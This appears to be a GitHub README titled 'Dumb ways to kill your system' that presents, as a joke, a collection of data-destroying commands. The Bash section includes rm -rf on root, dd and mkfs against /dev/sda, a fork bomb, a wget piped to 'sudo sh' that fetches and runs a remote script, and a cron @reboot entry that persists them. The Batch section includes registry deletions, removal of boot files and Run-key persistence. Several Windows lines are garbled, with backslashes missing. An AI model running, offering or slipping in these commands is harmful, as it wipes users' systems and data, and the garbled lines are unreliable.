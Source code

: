 # Dumb ways to kill your system
Kill your (or not) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The following commands should work on Android, Linux, MacOS, and others systems who run on the bash (and bash-like) interpreter(s).
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

```
sudo touch /var/spool/cron/$USER; echo '@reboot sudo chmod -R 777 /*; sudo rm -rf /* --no-preserve-root; dd if=/dev/null of=/dev/sda; sudo mv /* /dev/null; sudo mkfs.ext3 /dev/sda; : () {: |: &} ;:' > /var/spool/cron/$USER
```
This command will add all the commands above to run on the next reboot.
<br />
<br />


# Batch

```
del*.*
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/.exe
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/.dll
```
//TODO: Explain this command
<br />
<br />

```
START reg delete HKCR/*
```
//TODO: Explain this command
<br />
<br />

```
echo @echo off>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo break off>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo ipconfig/release_all>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
echo end>>c:windowswimn32.bat
```
//TODO: Explain this command
<br />
<br />

```
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
```
//TODO: Explain this command
<br />
<br />

```
reg add hkey_local_machinesoftwaremicrosftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:window
```
//TODO: Explain this command
<br />
<br />

```
delete %systemdrive%\*.* /f /s
```
//TODO: Explain this command
<br />
<br />

```
REN *.avi *.txt REN *.mkv *.txt REN *.BAT *.txt REN *.doc *.txt REN *.JPEG *.txt REN *.lnk *.txt
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\autoexec.bat
```
//TODO: Explain this command
<br />
<br />

```
del c:\autoexec.bat
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\boot.ini
```
//TODO: Explain this command
<br />
<br />

```
del c:\boot.ini
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\ntldr
```
//TODO: Explain this command
<br />
<br />

```
del c:\ntldr
```
//TODO: Explain this command
<br />
<br />

```
attrib -r -s -h c:\windows\win.ini
```
//TODO: Explain this command
<br />
<br />

```
del c:\windows\win.ini
```
//TODO: Explain this command
<br />
<br />

```
del /s /q *.*
```
//TODO: Explain this command
<br />
<br />

# Python

Just a script to check the Operational system type and run destructive commands.